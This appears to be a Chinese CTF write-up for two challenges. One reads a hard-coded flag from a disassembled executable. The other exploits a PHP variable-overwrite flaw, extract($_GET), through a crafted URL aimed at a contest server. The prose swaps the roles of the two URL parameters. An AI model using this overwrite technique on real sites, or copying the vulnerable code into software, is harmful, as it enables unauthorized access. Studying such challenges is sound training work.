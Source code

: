 题目给了个可执行文件：

	~ ⮀ file babyCrack2.exe
	babyCrack2.exe: PE32 executable for MS Windows (console) Intel 80386 32-bit

直接拖到IDA里，翻一翻就可以看到flag（话说程序逻辑是不是有问题？）：

	.text:00401010                 push    ebp
	.text:00401011                 mov     ebp, esp
	.text:00401013                 sub     esp, 0E4h
	.text:00401019                 push    ebx
	.text:0040101A                 push    esi
	.text:0040101B                 push    edi
	.text:0040101C                 lea     edi, [ebp+var_E4]
	.text:00401022                 mov     ecx, 39h
	.text:00401027                 mov     eax, 0CCCCCCCCh
	.text:0040102C                 rep stosd
	.text:0040102E                 mov     [ebp+var_20], offset aIdug35utCcbzDu ; "idug|3`5ut`CCbZ`DusnF`34~"
	.text:00401035                 cmp     [ebp+arg_0], 1
	.text:00401039                 jnz     short loc_40104F
	.text:0040103B                 push    offset aTryAgain1 ; "try again1!!!\n"
	.text:00401040                 call    sub_40117C
	.text:00401045                 add     esp, 4
	.text:00401048                 push    0               ; int
	.text:0040104A                 call    _exit

flag：``idug|3`5ut`CCbZ`DusnF`34~``

##GIFT（100pt）

打开题目，查看源码发现了这句话：As thanks, we provide gifts(flag) -index.php.bak  for you. 

于是打开index.php.bak,整理后如下

{% highlight php %}

<?php
	$flag='xxx';
	extract($_GET);
	if(isset($gift)){
	$content=trim(file_get_contents($flag));
	if($gift==$content){
		echo'hctf{...}';}
	else{echo'Oh..';}
	}
?>

{% endhighlight %}
		
看到extract($_GET)，很明显的变量覆盖漏洞，于是我们可以控制$flag和$gift，满足$gift==$content即能拿到flag。我们已知index.php.bak的内容，于是让$flag为index.php.bak的内容，$gift为index.php.bak即可。

构造url:

	http://121.40.86.166:39099/index.php?gift=<?php$flag='xxx';extract($_GET);if(isset($gift)){$content=trim(file_get_contents($flag));if($gift==$content){echo'hctf{...}';}else{echo'Oh..';}}?>&flag=index.php.bak
